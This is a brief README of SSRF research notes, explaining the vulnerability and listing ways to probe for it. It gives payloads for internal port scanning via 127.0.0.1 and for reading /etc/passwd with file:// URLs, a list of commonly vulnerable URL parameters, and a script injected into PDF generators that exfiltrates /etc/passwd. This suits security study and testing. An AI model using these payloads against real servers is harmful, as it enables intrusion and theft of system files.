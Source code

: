 # ssrf
ssrf reserch
SSRF or Server Side Request Forgery means fraud in server side requests. In this type of vulnerability, an attacker can connect the server to send malicious requests to internal or external resources. This vulnerability allows the attacker to access sensitive resources and may lead to leaking of sensitive information, intrusion into internal services or even control over the server.

What access does the SSRF vulnerability give the attacker

1_ Scan port
To perform port scan, it is enough to use http or https protocol
for example

    https://127.0.0.1:80

2_ Reading files
We use //:file to read files
for example

    file:///etc/passwd

blind ssrf:

For example, we want to perform a port scan on the target

Payload
  
    http://127.0.0.1:80

If the vulnerability is blind ssrf, how to find out whether the port is open or wrong

    1_ Pay attention to the content-length header
    2- Pay attention to the page loading time

Some functions accept URLs as input, which allows SSRF vulnerabilities if the user can manipulate the data

    _file_get_contents()
    fopen()
    file()
    md5_file()

Parameters that may have an SSRF vulnerability

    ?dest=
    ?redirect=
    ?uri=
    ?path=
    ?continue=
    ?url=
    ?window=
    ?next=
    ?data=
    ?reference=
    ?site=
    ?html=
    ?val=
    ?validate=
    ?domain=
    ?callback=
    ?return=
    ?page=
    ?feed=
    ?host=
    ?port=
    ?to=
    ?out=
    ?view=
    ?dir=

file uoload - ssrf

Web applications commonly utilize PDF generation libraries to generate PDF documents. These pages usually allow users to input the data and then generate a PDF document

Some of the most popular PDF generation libraries used in web applications :

    TCPDF
    PDFKit
    iText
    FPDF

Payload:

    <script>
    x=new XMLHttpRequest; 
    x.onload=function(){document.write(btoa(this.responseText))}; 
    x.open("GET","file:///etc/passwd");x.send() 
    </script>
